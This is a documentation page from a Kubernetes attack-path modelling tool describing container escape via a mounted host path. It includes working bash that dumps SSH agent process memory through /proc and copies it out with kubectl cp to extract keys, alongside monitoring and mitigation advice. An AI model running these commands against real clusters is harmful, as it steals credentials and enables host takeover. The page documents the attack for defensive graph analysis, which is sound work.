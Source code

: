 <!--
id: EXPLOIT_HOST_READ
name: "Read file from sensitive host mount"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# EXPLOIT_HOST_READ

Exploit an arbitrary read from a sensitive host path mounted into the container to gain execution on the host.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

If a sensitive host directory is exposed to a container, even as readonly, it can enable an escape to the host. The only example currently modelled is exposing a host volume that contains SSH keys (and assumes that SSH is enabled on the node for SRE activities). In this scenario an attacker can steal the SSH keys from the mounted volume, then SSH directly into the node.

## Prerequisites

Execution within a container with a sensitive host path mounted as readonly.

See the [example pod spec](../../test/setup/test-cluster/attacks/EXPLOIT_HOST_READ_TRAVERSE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks). Specifically:

+ `/etc`, `/root`, `/home`, `/proc` for SSH key material. This enables accessing the node via SSH (which is typically enabled for management functionality)

## Exploitation

Consider the case of an exposed `/proc` mount. We can attempt to steal SSH keys directly from the process memory of the SSH agent. First identify the target process by dumping all process info via:

```bash
find /proc -maxdepth 2 -wholename '/proc/[0-9]*/status'  | xargs cat > process-list.txt
```

Once the target PID has been retrieved, dump the process memory by reading `/proc/${PID}/mem`:

```bash
procdump()
( 
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
)
```

then exfiltrate the memory dump to an attacker machine using `kubectl cp` (or any other mechanism):

```bash
kubectl cp ${NAMESPACE}/${PODNAME}:/mem.bin ./mem.bin
```

Finally extract any SSH keys offline from memory using the [ssh-grab](https://github.com/NetSPI/sshkey-grab/blob/master/parse_mem.py) python script.

### Monitoring

+ Monitor for access to sensitive host files (e.g SSH keys) originating from container processes

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [ExploitHostRead](../../pkg/kubehound/graph/edge/exploit_host_read.go)

## References:

+ [Stealing SSH Keys From Memory](https://www.netspi.com/blog/technical/network-penetration-testing/stealing-unencrypted-ssh-agent-keys-from-memory/)
+ [Dump Linux Process Memory to File](https://serverfault.com/questions/173999/dump-a-linux-processs-memory-to-file)
